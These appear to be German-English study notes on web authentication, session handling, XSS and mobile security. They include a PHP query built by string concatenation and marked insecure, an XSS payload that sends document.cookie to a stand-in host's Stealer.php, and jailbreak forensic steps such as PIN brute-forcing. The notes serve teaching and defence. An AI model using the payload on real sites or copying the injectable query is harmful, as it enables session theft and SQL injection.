.. code-block:: php

	$stmt = prepareStatement("UPDATE COFFEES SET SALES=? WHERE COF_NAME "+ "LIKE '" + name + "'"); // insecure usage


6.2 Authentication & Session Management
---------------------------------------

**6.2.1. Begriffe**

Identication
	Sich ausweisen (wer man ist)
Authentication
	Identität nachweisen
Authorization
	Welche Operationen ein User mit der App machen darf
Identification
	Verifizieren der Identität
	
	
No Authentication without Identification, may be provided at same time though! (Login)
Authorization is ascertained after authentication.


**6.2.2. Anforderungen stellen Authentication & Session**

Authentication
	* Allg
		* Keep design simple
		* Never invent own cryptography
	* Password rules
		* Password Strength Controls
		* Only store passwords in HASHED form, with Salt for every user
		* Hash ASAP, never compare plain-text
		* Secure Password Recovery Mechanisum (Security Patterns!)
	* HTTPS
		* Don't submit password over plain-HTTP!

Session
	* Uniqueness
		* Each session must have a unique identifier
	* Unpredictable
		* It shall not be possible to predict an identifier
	* Consistency and Logging
		* A session must be identifiable at all tiers (mapping from 
		* external to internal session ID
		* It should be possible to log session information at all tiers

		
**6.2.3. drei Faktoren der Authentication**
 
* Something you know - Passwort
* Something you have - Token Generator / Smart-Card
* Something you are - Bio (Iris, Finger, etc)

Strong authentication - 2 or more Auth. (multifactor login)


European Commission definition of strong authentication:
a procedure based on the use of two or more of the following elements– categorised as knowledge, ownership and inherence:

i) something only the user knows, e.g. static password, code, personalidentification number;
ii) something only the user possesses,e.g.token, smart card, mobile phone;
iii) something the user is, e.g. biometric characteristic, such as a fingerprint.
 
In addition, the elements selected must be mutually independent, i.e. the breach of one does not compromise the other(s). At least one of the elements should be non-reusable and non-replicable (except for inherence), and not capable of being surreptitiously stolen via the Internet. The strong authentication procedure should be designed in such a way as to protect the confidentiality of the authentication data.


**6.2.4. "HTTP Protocol based Authentication", "Application Login" und "HTTPS Protocol based Authentication"**
 
HTTP Protocol based Authentication
	* "Authorization" HTTP Header. Böööse (Wrap in HTTPS!)
	* Authorization: Basic base64(user + ":" + password)
Application Login
	* Authentication basierend auf Login-Credentials (meist Username, Passwort) und verglichen in Applikation (statisch, DB, PW-File)
HTTPS Protocol based Authentication
	* HTTPS erstellt Verbindung mit Server, erhält SSL Session ID. (Auth durch BASIC Auth???)


**6.2.5.  Form autocompletion**

* Autocompletion hinterlässt z.B. E-Mail/Username (Identification). HTML-Attribute autocomplete="off" ist aber non-standard. Username-Field mit random-Wert ergänzen.


**6.2.6. Back Button Relogin Vulnerability**

* Mit dem Back-Button wird der alte HTTP-Kontext (inkl Cookies) mitgeschickt. Wird ein Session nach dem Logout nicht zerstört ist der User wieder eingeloggt. (Public Computer Back-Attack)
* Logout --> invalidate Session on Server, Return new Session, Redirect to different Page


**6.2.7. User Enumeration**

* Kann ein Angreifer dank einer Fehlermeldung die Existenz eines Benutzers bestätigen (Username does not exist => Password is wrong), macht es ihn seine Aufgabe wesentlich einfacher. Usernames: admin, guest, superadmin, sa, etc.
* (Fehler)Meldung bei Login muss zwingend generisch gestaltet werden (Bunutzername oder Passwort falsch.)


**6.2.8. SAML**

* Die Security Assertion Markup Language (kurz SAML) ist ein XML-Framework zum Austausch von Authentifizierungs- und Autorisierungsinformationen. SAML sollte vor allem für Webservices angeboten werden.
* SAML assertions werden vom Identity Provider zum Service Provider übertragen. Assertions sind Aussagen statements, die ein Service Provider nutzt, um über das Zulassen eines Zugriffs zu entscheiden. Drei Typen von statements werden von SAML genutzt:

Authentication statements: 
	Zusicherung einer Authentifizierung für Subjekt S zur Zeit T mittels M. (für Single Sign-On)
Attribute statements: 
	Zusicherung, dass ein Subjekt S über Attribut A verfügt mit dem Wert a. (für verteilte Transaktion/Autorisierung)
Authorization decision statements: 
	Autorisierung bestimmter Ressourcen.

	
* Sehr komplex, hat sich nicht bewährt.


**6.2.9. SAML Begriffe IdP und SP**
 
IdP
	Identity Provider. z.B. Login to Website via FB, FB ist dann Identity Provider vom User.
SP
	Service Provider. Provides Webservices. Relies on IdP for Authentication
IdP-Initiated
	In IDP Init SSO the Federation process is initiated by the IDP sending an unsolicited SAML Response to the SP.
SP-Initiated
	In SP-Init, the SP generates an AuthnRequest that is sent to the IDP as the first step in the Federation process and the IDP then responds with a SAML Response.

.. figure:: img/rq-6.2.9.1.jpg

   IdP-Initiated


.. figure:: img/rq-6.2.9.2.jpg

   SP-Initiated


**6.2.10. SAML based SSO**

.. figure:: img/rq-6.2.10.1.jpg

   Post Bindings


.. figure:: img/rq-6.2.10.2.jpg

   Artefakten


**6.2.11. Attacken für SAML & Gegenmassnahmen**

* Replay - Attack
	* Use SSL
	* Opportunistic programming (just use what you need)
	* Use Library with full SAML support
* DoS
	* DoS Protection / Mitigation


**6.2.12. Attacken gibt es, um Browser Sessions zu klauen**

Session-Sniffing: 
	Capture Session (also Cookie Data) on the wire. Mit HTTPS etwas schwieriger
XSS: 
	Cross-Site-Scripting


**6.2.13. Warum keine URL-based Sessions**

* Wird ein Image von einem Host geladen wird immer ein Refer übermittelt. Ist der Session-ID im URL drin, gelingt es dem Angreifer sehr einfach an die Session-ID's zu kommen.
* Bei sehr schlechter Implementierung: User kommt via Goolge-Session auf Webseite, User loggt sich ein, Tada alle weitere Benutzer, die via Google kommen sind eingeloggt.


**6.2.14. Session Fixation / Massnahmen**

Session fixation attacks attempt to exploit the vulnerability of a system which allows one person to fixate (set) another person's session identifier (SID).

* Attack via accept any SID (Eve zwingt Adam dazu Link mit von Eve erzeugten SID zu öffnen, Server akzeptiert SID)
* Attack via server generated SID (Eve speichert ihre Session-ID - erhalten vom Server, zwingt Adam dies zu verwenden aka. Link, etc)
* Attacks using cross-site cooking (does not work with modern browsers) - Set Session-ID of another Domain
* Attacks using cross-subdomain cooking - Set Session-ID for entire domain and not just sub-domain.

Massnahmen:

* Do not accept session identifiers from GET / POST variables
* Change Session-ID after Logon
* Store session identifiers in HTTP cookies
* Utilize SSL / TLS Session identifier
* Accept only server-generated SIDs
* Time old SID's
* Destroy session if Referrer is suspicious


**6.2.15. restriktiven Cookie Parameter**

Secure Cookies
	only via HTTPS
HTTP Only
	disallow Javascript from reading cookies.


	
6.3 XSS
-------

**6.3.1. Same Origin Policy**

Protocoll+Host+Port stimmen überein

.. image:: img/rq-6.3.1.1.jpg


**6.3.2. über eine XSS Lücke Sessions klauen**

XSS Allg: Inhalt wird nicht korrekt escaped und wird in dem Browser "ausgeführt" via Javascript.

Beispiel:

::

	hxxp://www.example.com/index.php?search=<script>location.href = 'http://www.Yoursite.com/Stealer.php?cookie='+document.cookie;</script>


* Stealer.php macht dann selber ein redirect zum refer. Benutzer merkt fast nichts.
* Möglich ist auch die Einbindung vom Images (1x1 transparent gif) und cookies als query anhängen. 


**6.3.3. Arten von XSS**
 
Stored
	* Wird in Applikation (DB, etc) gespeichert und gerendert
	* Forum, comments + messages
	* Profile (Signatur, Username)
	* Mail (HTML)
Reflected
	* Non Persistent
	* 404 - Pages, The Page <script>…</script> does not exist
	* Application Error Pages <script>..-</script> not valid for this field
	* Search Pages
DOM injections
	* Wird Client-Seitig eingebunden durch dynamische JS anzweisung
	* Z.B. Sprachparameter in URL, Auslesen mit JS, erstellen vom <h1> Element

	
**6.3.4. Welche Massnahmen gegen XSS**
 
* #0 - Never Insert Untrusted Data Except in Allowed Locations
* #1 - HTML Escape Before Inserting Untrusted Data into HTML Element Content
* #2 - Attribute Escape Before Inserting Untrusted Data into HTML Common Attributes
* #3 - JavaScript Escape Before Inserting Untrusted Data into JavaScript Data Values
* #4 - CSS Escape And Strictly Validate Before Inserting Untrusted Data into HTML Style Property Values
* #5 - URL Escape Before Inserting Untrusted Data into HTML URL Parameter Values
* #6 - Sanitize HTML Markup with a Library Designed for the Job
* Bonus #1: Use HTTPOnly cookie flag
* Bonus #2: Implement Content Security Policy



7 Mobile Security
=================

**7.0.1. "Mobile Applications Plattform"**

.. image:: img/rq-7.0.1.1.jpg


**7.0.2.  OWASP im Threat Modelling Process**
 
Mobile Application Architecture 
	This area describes how the application is designed from device specific features used by the application, wireless transmission protocols, data transmission mediums, interaction with hardware components and other applications.
Mobile Data 
	What data does the application store and process? What is the business purpose of this data and what are the data workflows?
Threat Agent Identification 
	What are the threats to the mobile application and who are the threat agents. This area also outlines the process for defining what threats apply to the mobile application.
Methods of Attack 
	What are the most common attacks utilized by threat agents. This area defines these attacks so that controls can be developed to mitigate attacks.
Controls 
	What are the controls to prevent attacks? This is the last area to be defined only after previous areas have been completed by the development team.


**7.0.3. Beispiel Moves**

* Verwendung von Location Data + Accelerometer. Stellt die tägliche Aktivität da.
* Daten: Location (GPS, Wi-Fi), Accelerometer samples, places, Device data
* Speichern: everywhere and anywhere. Daten werden mit Plugins geteilt…
* Schutz?


**7.0.4. Angriffskanäle bei Smartphones**

* Social Engineering
* Drive-by Exploitation
* Phishing
* Network Services (Man-In-Middle WLAN)
* WebView
* Market Place / direct install
* Physical Attacks (USB Aufladeports in Hotels..)


**7.0.5. OWASP Risiken identifizieren**
 
1) Take the list of all sensitive data (or information to protect) listed in Section Mobile Data
2) Make a list of all the ways to access this data
3) Identify the attackers using the ways i.e. the medium to access sensitive data 


**7.0.6. Thread Agents Kategorien**

Human Interaction vs Automated Programs

.. image:: img/rq-7.0.6.1.jpg


**7.0.7. Angriffsszenarien bei einem Mobile Device**

* Local Memory / Storage based methods (“Method aimed to read the local application memory”)
* OS and application level methods
* Endpoints based methods (Webs Servise, Malware in app store, Cloud Storage)
* Communication Channel Based Methods (Wireless interfaces based methods)
* Miscellaneous Methods (GPS exploit, microphone recordings)


**7.0.8. Apps Rechte und Speicherzugriff**

* Apps werden grundsätzlich im User-Mode ausgeführt. Bei Rooted/jailbraked devices kann ein App auch in kernel-mode ausgeführt werden.
* Flash Memory, Internal Memory, SD


**7.0.9. Malware im App Store**

* Android: App wird gescannt nach bekannte Malware, User melden Probleme mit App
* iOS: Auch gescannt, manuell überprüft. (schwieriger)
* Angriff auf AppStore selbst

.. figure:: img/rq-7.0.9.1.jpg

   Lines of Defense


**7.0.10. Angriffe Auf Kommunikationschannels**

* Man in the middle (MiTM) attacks which can steal data packets including SMS or voice packets
* Stealing data when its in-transit using wireless channel like 802.11, NFC based data exchange or Bluetooth based data exchange. Application Level Attacks
* Targeting malicious corporate network. (e.g. VPN Keys, etc)


**7.0.11. Flexispy und Probleme**

* Flexispy captures the content of emails, texts, call log details and GPS coordinates. Flexispy also gives customers the ability to listen to live calls. Customers are alerted that the mobile device with the software installed is on an active call. 

Problem
	* Kann beliebig eingesetzt werden. Verletzung Privatsphäre.
	* Device muss ge-Jailbreaked sein -> führt zu weitere Probleme, hebt Schutz auf.

**7.0.12. Sicherheitsprobleme im Smartphone Umfeld**

.. figure:: img/rq-7.0.12.1.jpg

   PC-Welt


**7.0.13. Mobile Security Top 10 Listen**

ACHTUNG! Die Folien weisen eine andere Reihenfolge auf… Unten die aktuellste Reihenfolge nach Bedrohung 201X.

M1 - Weak Server Side Controls
	Alles was  nicht auf dem Phone stattfindet. z.B. SQL Injection auf Server-Side (OWASP Top 10)
M2 - Insecure Data Storage
	* Sensitive Data nicht verschlüsselt. OS spezifische Verschlüsselungsmöglichkeiten (Stores) nicht verwendet.
	* World readable Configs
M3 - Insufficient Transport Layer Protection
	Kein SSL, SSL Warnungen ignoriert, Cert Chain nicht bestätigt, schlechte Implementierung von SSL (iOS lässt grüssen)
M4 - Unintended Data Leakage
	Passwort in Log ausgegeben (clap, clap). Review third party libs.
M5 - Poor Authorization and Authentication
	Verwendung von DeviceID oder SubscriberID as einziger Auth-Methode.
M6 - Broken Cryptography
	Key mit Verschlüsselte Datei abspeichern bringt nichts. OS-Features verwenden
M7 - Client Side Injection
	Pure web apps (XSS). Phone Reset Aufruf via tel://resetcodehere# möglich!
M8 - Securty Decisions Via Untrusted Inputs
	App Aufrufe via eigene Handlers (z.B. skype:23487234?call) => Anruf wird direkt betätigt. Immer User nach eine Bestätigung Fragen von externe Quellen.
M9 - Improper Session Handling
	* Sessions leben länger auf dem Client. Absichern, dass ein Session revoke (echo to server, reponse denied, destroy session)
	* High entropy sources!
M10 - Lack of Binary Protections
	* Analysis byte-code. (API Keys, Passwörter, Sensitive Bussiness-Logik)
	* Keine God-Mode Code!



8 Smartphone Security
=====================

**8.0.1. Risiken eines kompromitierten Gerätes**

Privat
	* Konto Infos, Social Engineering
Business
	* Wirtschaftsspionage
	* Zugriff auf interne Netzwerk-Firma (call-home)

	
**8.0.2. Sicherheitsmechanismen Hardware**

Schlüsselspeicher (Keychain)
	* Sichere Ablage von «sensitiven» Informationen
	* Schutz gegen unberechtigten Zugriff auf dem Gerät, im Backup, usw.
Geräte-PIN
	* Schutz gegen interaktive Verwendung des Gerätes
	* Schutz gegen Zugriff über andere Schnittstellen
Speicherverschlüsselung
	* Schutz gegen physischen Zugriff auf den Speicher
	* Schutz gegen Zugriff mit modifiziertem Betriebssystem


**8.0.3. Sicherheitsmechanismen Betriebssystem**

Update-Funktionalität
	* Schnelle Aktualisierung  von Betriebssystem und Apps
Zugriffskontrolle auf OS-Stufe
	* Optimale Trennung von Anwendungen auf Betriebssystem-Stufe
	* Einsatz von Betriebssystem-Benutzern mit eingeschränkten Rechten
Integritätskontrolle auf OS-Stufe
	* Schutz gegen «Rooting» / «Jailbreaking»
	* Sicherstellen, dass alle Sicherheitsmechanismen intakt sind


**8.0.4. Sicherheitsmechanismen um Apps abzusichern**

Sandbox
	* Logische Trennung (Separierung) von Apps
	* Zugriffe auf Betriebssystem-Funktionen und Hardware einschränken
Integritätskontrolle Apps
	* Inhaltliche und technische Kontrolle der Apps im Store
	* Verwendung von digitalen Signaturen
Rechtesteuerung
	* Vergabe von Zusatzrechten durch Benutzer (z.B. Zugriff auf GPS, Internet)
Backup
	* Regelmässige Erstellung von Backups mit einfacher Restore Möglichkeit
	* Sichere Ablage der Backup-Daten


**8.0.5.  iOS und Android Daten Verschlüsselung**

iOS
	* Keychain in SQLitte Datenbank abgelegt. Eine Zeile pro Keychain
	* Apps haben Zugriff nur auf ihre eigenen Einträge
	* Apps können über Zugriffsklassen bestimmen (vor/nach PIN-Eingabe) und wo (thisDeviceOnly, Cloud!)
	* Bad: Kopie der Keychain landet im Backup und kann entschlüsselt werden.
	* Geräte haben Crypto-Chip und eingebrannten HUID.
	* Jede Datei wird mit einem individuellen Schlüssel verschlüsselt
	* Gut: Verschlüsselung ist nicht deaktivierbar
	* Bad: Verschlüsselung ist nicht abhängig vom Geräte-PIN (kann ohne PIN vollständig aufgestartet werden)

Android
	* Speicherverschlüsselung mit dm-crypt (Linux Kernel)
	* Möglichkeit zur Verschlüsselung der SD-Speicherkarte (Herstellerabhängig)
	* Verschlüsselung ist abhängig von Geräte-PIN -> Kein Aufstarten ohne PIN
	* Bad: Verschlüsselung ist nicht per Default aktiviert

	
**8.0.6. Signaturmechanismen iOS und Android**

iOS
	* Nur von Apple signiert Apps lassen sich installieren
	* Apps sind gegen unberechtigte Modifikation vor der Installation geschützt

Android
	* Durch Entwickler signiert (keine Überprüfung Zertifikatskette)
	* Apps aus dem App-Store sind zusätzlich Signiert durch Google

	
**8.0.7.  Funktionalität eines gestohlenen iPhones, leakbare Daten**
 
Grundsätzlich
	teurer Papiergewicht

System Partition
	Dump der Partition möglich, sobald Gerät gestartet ist. Daten können gelesen werden

Data Partition
	Dump der Partition möglich, sobald Gerät gestart ist. Inhalt der Files ist aber verschlüsselt!

	
**8.0.8. Filesystem- und Fileverschlüsselung**

.. figure:: img/rq-8.0.8.1.jpg

   Filesystem


.. figure:: img/rq-8.0.8.2.jpg

   File


**8.0.9. Löschen von Files/Daten / Wiederherstellung**

Löschen
	Beim Löschen eines Files wird der Schlüssel der Datei überschrieben (Daten sind dort, aber sehen wie garbage aus)

Wiederherstellung
	* Undelete ist grundsätzlich nicht möglich
	* Über Journal-Funktionalität möglich (ist jedoch sehr klein 8 MB).
	* iPhone raw NAND recovery and forensics (requires jailbroken devices, direkten Zugriff auf Flash-Speicher)

	
**8.0.10. Forensic Tools**
 
(Vorausgesetzt ist ein Jailbreak!)
 
* Bruteforce auf die PIN
* Dumpen von Keys
* Physical (dd if=/dev/disk0s1s) und Logical (via FS)  Data Aquisition
* Daten von Apps werden meistens via SQLite gespeichert und dann lediglich mit Deleted vermerkt.



8.1 EJPD Architektur
--------------------